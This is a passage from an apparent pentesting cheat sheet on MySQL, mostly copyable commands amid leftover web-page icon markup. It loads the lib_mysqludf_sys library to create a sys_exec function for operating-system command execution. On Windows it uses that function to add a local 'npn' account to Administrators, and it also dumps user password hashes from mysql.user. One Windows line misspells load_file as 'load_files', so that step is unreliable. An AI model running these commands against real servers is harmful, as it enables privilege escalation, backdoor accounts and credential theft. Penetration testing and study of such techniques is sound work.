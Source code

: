 ![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2535'%3e%3cg data-evernote-id='2536' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2537' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2538' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

50use mysql;
51create  table npn(line blob);
52insert  into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
53select  *  from npn into  dumpfile  '/tmp/lib_mysqludf_sys.so';
54create  function sys_exec returns  integer  soname  'lib_mysqludf_sys.so';
55select sys_exec('id > /tmp/out.txt');

###

Windows[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2631'%3e%3cg data-evernote-id='2632' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2633' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2634' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/pentesting/pentesting-mysql#windows)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2638'%3e%3cg data-evernote-id='2639' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2640' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2641' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

56USE mysql;
57CREATE  TABLE npn(line blob);
58INSERT  INTO npn values(load_files('C://temp//lib_mysqludf_sys.dll'));

59SELECT  *  FROM mysql.npn INTO  DUMPFILE  'c://windows//system32//lib_mysqludf_sys_32.dll';

60CREATE  FUNCTION sys_exec RETURNS  integer  SONAME  'lib_mysqludf_sys_32.dll';

61SELECT sys_exec("net user npn npn12345678 /add");
62SELECT sys_exec("net localgroup Administrators npn /add");

##

Extracting MySQL credentials from the database[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2746'%3e%3cg data-evernote-id='2747' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2748' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2749' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/pentesting/pentesting-mysql#extracting-mysql-credentials-from-the-database)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2753'%3e%3cg data-evernote-id='2754' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2755' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2756' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

63SELECT  User,Host,Password FROM mysql.user;
64SELECT  User,Host,authentication_string FROM mysql.user;

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2797'%3e%3cg data-evernote-id='2798' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2799' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2800' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

mysql -u root --password=<PASSWORD> -e "SELECT User,Host,authentication_string FROM mysql.user;"

##
